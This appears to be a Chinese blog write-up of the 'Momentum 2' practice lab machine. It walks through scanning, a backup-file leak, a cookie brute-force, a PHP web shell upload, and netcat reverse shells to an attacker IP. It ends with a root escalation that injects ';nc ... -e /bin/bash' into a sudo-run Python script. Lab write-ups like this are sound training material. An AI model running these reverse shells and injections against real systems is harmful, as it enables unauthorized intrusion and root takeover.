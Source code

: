```yaml
---
layout: post
title: Momentum 2
subtitle: Momentum 2
date: 2025-07-19 15:53
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息收集

扫描IP 发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/e6Tm65.png)

扫描端口，开发80、22端口

![image.png](https://img.ghostliner.top/urtsRx.png)

扫描目录

![image.png](https://img.ghostliner.top/vh5Uev.png)

查看站点，`/manual`发现文件上传

![image.png](https://img.ghostliner.top/Sk3BDv.png)

相关js代码，向`ajax.php`发送数据，返回1代表成功

![image.png](https://img.ghostliner.top/18Grb1.png)

目录扫描发现 `ajax.php.bak`文件

![image.png](https://img.ghostliner.top/0xK8l9.png)

根据代码，需要添加cookie，且最后一位追加大写字母，设置参数 `secure`值为 `val1d`，则可以上传php文件

```
admin=&G6u@B6uDXMq&Ms
```

bp测试，发现为字符 `R`

![image.png](https://img.ghostliner.top/3WGt0N.png)

![image.png](https://img.ghostliner.top/qx4Ncq.png)

成功上传 `shell.php`文件，7kbscan扫描目录发现 `/owls/`

![image.png](https://img.ghostliner.top/M3SlE8.png)

确定脚本位置： <http://192.168.163.131/owls/shell.php> ，使用蚁剑连接

### 反弹shell

```shell
nc -nv 192.168.163.132 -e /bin/bash
```

![image.png](https://img.ghostliner.top/kOUeD9.png)

查看 `/etc/passwd`发现用户`athena`

![image.png](https://img.ghostliner.top/ZloKSE.png)

查看home目录，发现多个文本文件，一个脚本文件

![image.png](https://img.ghostliner.top/JvFQqX.png)

获取第一个flag

![image.png](https://img.ghostliner.top/1gYtoc.png)

### 提权

获取密码：`myvulnerableapp[Asterisk]` Asterisk为星号

![image.png](https://img.ghostliner.top/uavPEh.png)

发现提示，要执行 `cookie-gen.py`脚本

![image.png](https://img.ghostliner.top/qdcFM1.png)

查看脚本内容

```python
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

最后一行命令会启动一个shell进程来解析cmd字符串，cmd字符串中包含了用户输入的内容

使用密码：`myvulnerableapp*`，登录 `athena`成功，发现可用`/usr/bin/python3 /home/team-tasks/cookie-gen.py`提权

![image.png](https://img.ghostliner.top/43yOpc.png)

```shell
sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
# 输入反弹shell代码
;nc -nv 192.168.163.132 5555 -e /bin/bash
```

反弹成功

![image.png](https://img.ghostliner.top/eOXzYY.png)

提权成功

![image.png](https://img.ghostliner.top/CXtpxk.png)
